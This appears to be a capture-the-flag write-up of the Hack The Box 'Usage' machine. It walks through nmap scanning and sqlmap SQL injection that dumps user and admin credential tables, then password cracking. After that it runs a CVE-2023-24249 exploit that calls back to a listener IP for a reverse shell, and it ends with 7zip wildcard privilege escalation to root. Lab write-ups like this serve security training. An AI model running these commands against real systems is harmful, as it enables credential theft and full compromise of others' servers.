



# Usage HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.56.30 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.56.30 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.56.30 -v --script vuln -oN nmap_vuln.txt
```


On port 80 we see this website; the **Admin** option looks interesting.


When we go there, it shows another login form.


By checking the source code, we see that it is a **Laravel-Admin/AdminLTE** app.


---

## Testing Inputs and Vulnerability Discovery

Captured requests in **Burp Suite**, entered `'` into the form fields — resulted in **HTTP 500** for the password reset endpoint.


The **email** parameter was vulnerable.



---

## SQL Injection Exploitation

Saved Burp request and executed **sqlmap**:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dbs
```



Then enumerated tables in the `usage_blog` database:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --tables -D usage_blog
```


Dumped user credentials:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dump -T users -D usage_blog
```


Dumped `admin_users` table:

```bash
sqlmap -r request2 --batch --level 5 --risk 3 --threads 10 -p email --dump -T admin_users -D usage_blog
```


We obtained an **admin hash**. Cracked it using **John the Ripper**:

```bash
john --wordlist=rockyou.txt hash.txt
```


---

## Admin Panel Access and RCE Exploit

Logged in at `admin.usage.htb` using cracked admin credentials.



After research, identified **CVE-2023-24249**, a known Laravel Admin exploit.

Used exploit from [https://github.com/IDUZZEL/CVE-2023-24249-Exploit](https://github.com/IDUZZEL/CVE-2023-24249-Exploit):

```bash
python3 exploit.py -u http://admin.usage.htb -U admin -P whatever1 -i 10.10.15.30 -p 4444
```


User flag located in the home directory.

---

## Lateral Movement

During enumeration, found `.monitrc` file in `/home/dash/` containing credentials.


Used these credentials to switch to user **xander**:


---

## Privilege Escalation via 7zip Wildcard Exploit

As user **xander**, running `sudo -l` revealed permission to execute `usage_management` as root.


The tool has three options. Selecting the first creates a **7zip backup**.


Running `strings` on the binary shows the **7za** execution command.


Found **7zip wildcard exploitation** technique reference:  
[https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html)


Exploited this to get root and read `root.txt`.


Alternatively, could copy `/root/.ssh/id_rsa` and connect as root:

```bash
ssh root@10.129.56.30 -i id_rsa
```


---

## Summary

- Identified SQLi in Laravel Admin login.  
- Dumped admin credentials and cracked password.  
- Exploited CVE-2023-24249 for shell access.  
- Found credentials in `.monitrc` for user escalation.  
- Used wildcard exploit in 7zip to gain root access.

---
